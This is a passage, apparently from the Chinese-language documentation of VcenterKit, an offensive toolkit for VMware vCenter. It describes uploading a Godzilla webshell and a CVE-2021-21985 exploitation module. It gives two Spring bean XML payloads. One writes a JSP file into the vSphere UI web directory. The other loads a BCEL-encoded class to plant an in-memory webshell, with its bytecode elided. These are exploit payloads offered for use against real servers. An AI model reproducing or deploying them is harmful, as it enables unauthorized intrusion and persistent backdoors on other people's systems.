 上传哥斯拉马：

![11edd12a79387cb0d58d2a24b86ca10](https://github.com/W01fh4cker/VcenterKit/assets/101872898/3aac0b58-d2b7-49bd-a51e-5dc87e4f8845)


## 1.4 CVE-2021-21985模块

![image](https://github.com/W01fh4cker/VcenterKit/assets/101872898/e49cb0bb-0bbf-457b-b789-09ce3948a220)


需要注意的是，这里的`RMI`和`Command`只能二选一填写，目前`rmi`由于测试环境的问题，还没有进行测试，可能会有问题，但是`command`目前测试下来没什么问题，这里放上一张之前写的时候测试的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/e39abf9b303b95372fa666e919cf705.png)

需要注意的是，当前版本（`v0.0.3`）的`shell`上传和内存马打入模块还没实现。但是核心思想就是替换`xml`：

>  以下参考：https://daidaitiehanhan.github.io/2022/04/18/vCenter2021几个漏洞及后渗透/#不出网利用

上传`shell`的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.io.PrintWriter">
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.println(is).close()}"/>
    </bean>
</beans>
```

打内存马要用到的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="com.sun.org.apache.bcel.internal.util.ClassLoader">
    </bean>
        <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```
